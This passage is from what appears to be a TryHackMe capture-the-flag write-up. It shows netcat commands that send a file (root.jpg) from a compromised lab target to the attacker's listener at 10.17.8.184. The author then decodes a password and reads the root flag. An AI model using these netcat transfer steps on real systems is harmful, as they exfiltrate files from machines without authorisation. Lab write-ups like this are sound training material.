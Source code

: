 ### 3.4. Image Handling
Copy the image using netcat, on you machine. Follow the steps:
1. Send the file to an IP with port specified.
```
hakanbey@ubuntu:~$ nc 10.17.8.184 3333 < root.jpg
nc 10.17.8.184 3333 < root.jpg
```
2. Listen and redirect.
```
┌──(kali㉿kali)-[/tmp]
└─$ nc -lnvp 3333 > img.jpg
listening on [any] 3333 ...
connect to [10.17.8.184] from (UNKNOWN) [10.10.68.111] 35942
^C
```

Looking at the mentioned offset, we get:
![hex code for the image that helps us do privesc](https://i.imgur.com/I37Gg1G.png)

Using the hint from the room: `From HEX, To Base85`, I got the password :D

```
root@ubuntu:~# cat root.txt
cat root.txt
THM{wowowowowow}
```

System compromised!
